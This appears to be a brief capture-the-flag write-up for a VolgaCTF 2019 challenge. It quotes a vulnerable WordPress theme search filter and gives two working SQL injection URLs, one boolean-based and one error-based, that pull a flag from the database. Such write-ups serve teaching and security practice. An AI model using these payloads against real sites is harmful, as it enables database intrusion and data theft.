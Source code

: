 **Vulnerable code** /bootstarter-4-wordpress-theme-master/inc/advanced-custom-fields-support.php:

```
function cf_search_where( $where ) {
    global $pagenow, $wpdb;

    if ( is_search() ) {
        $where = preg_replace(
            "/\(\s*".$wpdb->posts.".post_title\s+LIKE\s*(\'[^\']+\')\s*\)/",
            "(".$wpdb->posts.".post_title LIKE $1) OR (".$wpdb->postmeta.".meta_value LIKE $1)", $where );
    }

    return $where;
}
add_filter( 'posts_where', 'cf_search_where' );

```

**Boolean Based:**

```
http://blog.q.2019.volgactf.ru/?s=)))or(select`flag`from`flag`)like(0x566F6C67614354467B25)%23%27)&exact=1
```

**Error Based (LC↯BC):**

```
http://blog.q.2019.volgactf.ru/?s=)))+union+select+extractvalue(1,concat(0x3a,(select+flag+from+flag)))+%23%27)&exact=1&sentence=1
```